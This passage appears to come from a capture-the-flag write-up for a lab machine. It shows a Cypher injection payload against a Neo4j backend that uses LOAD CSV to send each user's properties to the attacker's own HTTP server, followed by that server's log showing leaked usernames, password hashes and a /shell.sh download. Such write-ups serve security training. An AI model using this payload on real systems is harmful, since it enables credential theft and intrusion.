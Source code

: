 ```python
10.10.11.210 - - [23/Apr/2023 11:22:03] "GET /user HTTP/1.1" 404
```

Now that we know the `label` , we can get the data from the `label`:

```python
' OR 1=1 WITH 1 as a MATCH (f:User) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.22/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

Injecting the payload resulted in several connections to our HTTP server revealing the hashes and usernames:

![](/img/OnlyForYou_6cf32928838a4b23bc4a47a1102c4daf/Untitled_11.png)

```python
❯ sudo python3 -m http.server 80 --bind 10.10.14.22
Serving HTTP on 10.10.14.22 port 80 (http://10.10.14.22:80/) ...
10.10.11.210 - - [23/Apr/2023 16:28:44] "GET /shell.sh HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 16:33:04] code 404, message File not found
10.10.11.210 - - [23/Apr/2023 16:33:04] "GET /user HTTP/1.1" 404 -
10.10.11.210 - - [23/Apr/2023 16:54:50] code 404, message File not found
10.10.11.210 - - [23/Apr/2023 16:54:50] "GET /neo4j HTTP/1.1" 404 -
10.10.11.210 - - [23/Apr/2023 16:56:57] code 400, message Bad request syntax ('GET /Neo4j Kernel HTTP/1.1')
10.10.11.210 - - [23/Apr/2023 16:56:57] "GET /Neo4j Kernel HTTP/1.1" 400 -
10.10.11.210 - - [23/Apr/2023 17:06:45] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:45] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:45] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:45] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:46] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:46] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:46] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:46] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:46] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:46] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:47] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:47] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:47] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:47] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:47] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:47] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:48] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:48] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:48] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 17:06:48] "GET /?username=john HTTP/1.1" 200 -
```
